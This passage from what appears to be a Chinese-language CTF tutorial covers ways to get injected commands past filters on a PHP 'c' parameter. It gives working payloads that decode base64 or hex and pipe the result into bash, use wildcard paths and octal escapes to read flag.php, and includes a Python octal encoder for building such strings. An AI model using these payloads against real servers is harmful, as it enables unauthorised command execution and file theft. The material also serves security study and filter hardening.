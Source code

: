 ## 6.1 base64 命令文件执行示例

```c
?c=/bin/base64 flag.php
?c=/???/????64 ????.???
?c=echo "Y2F0IGZsYWcucGhw" | base64 -d | bash    //cat flag.php 后面的bash可以替换为sh
```

## 6.2 利用数字ASCII码代替字母

利用 Bash 的 `$'…'` 语法实现，例如：
```c
?c=$'\154\163'      ls

?c=$'\143\141\164'*     cat *

?c=$'\164\141\143' $'\146\154\141\147\56\160\150\160'      tac flag.php
```

下面的 Python 脚本可以实现八进制编码与解码：

```python
def encode_to_octal(input_string):
    # 将每个字符转换为其ASCII码的八进制表示
    return ''.join(f'\\{oct(ord(c))[2:]}' for c in input_string)

# 测试
input_string = "cat"
encoded_string = encode_to_octal(input_string)
print(f"Encoded: {encoded_string}")

def decode_from_octal(octal_string):
    # 分割八进制字符串，并将每个八进制值转换为字符
    characters = octal_string.split('\\')[1:]  # 去掉空字符串部分
    decoded_string = ''.join(chr(int(c, 8)) for c in characters)
    return decoded_string

# 测试
octal_string = "\\143\\141\\164"
decoded_string = decode_from_octal(octal_string)
print(f"Decoded: {decoded_string}")
```
## 6.3 hex编码绕过

```c
echo "63617420666c61672e706870" | xxd -r -p | bash 
```
效果思路和 base64 类似

---

# 七. 命令执行函数过滤
